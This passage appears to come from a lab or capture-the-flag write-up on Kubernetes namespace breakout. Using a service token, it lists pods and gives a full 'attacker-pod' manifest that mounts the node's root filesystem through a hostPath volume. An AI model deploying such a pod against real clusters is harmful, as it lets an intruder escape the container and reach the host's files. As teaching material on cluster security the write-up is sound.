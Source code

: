 Using the service token, we should be able to create new pods in the cluster. In order to achieve this, I used the method at this link as reference: [https://blog.appsecco.com/kubernetes-namespace-breakout-using-insecure-host-path-volume-part-1-b382f2a6e216](https://blog.appsecco.com/kubernetes-namespace-breakout-using-insecure-host-path-volume-part-1-b382f2a6e216)

First, we will need a yaml file that will define the specifications and behavior of the pod. We can use the following command to find any existing pods and use them as reference. 

`kubectl get pods`

```
NAME                     READY   STATUS    RESTARTS   AGE
nginx-7f459c6889-8slv2   1/1     Running   2          119d
gitea-0                  1/1     Running   2          118d
```

We have the nginx and gitea pods in the current namespace. 

We can query for the details of the pod.

`kubectl get pod <name> -n <namespace> -o yaml`

> You can choose whichever pod you want as reference. I used the gitea-0 pod for convenience.

Using these details, we can create a yaml file as follows:

```
apiVersion: v1
kind: Pod
metadata:
  labels:
    run: attacker-pod
  name: attacker-pod
  namespace: default
spec:
  volumes:
  - name: host-fs
    hostPath:
      path: /
  containers:
  - image: gitea/gitea:1.5.1
    imagePullPolicy: IfNotPresent
    name: attacker-pod
    volumeMounts:
      - name: host-fs
        mountPath: /root
    # Just spin & wait forever
    command: [ "/bin/bash", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" 
]  restartPolicy: Never
```

What this is doing is essentially mounting the node's root (/) file system onto /root in the container in this pod. The command at the end is to ensure that the pod stays alive and does not go into "Completed" status.

We will name this file `attacker.yaml`. After this we can create the pod
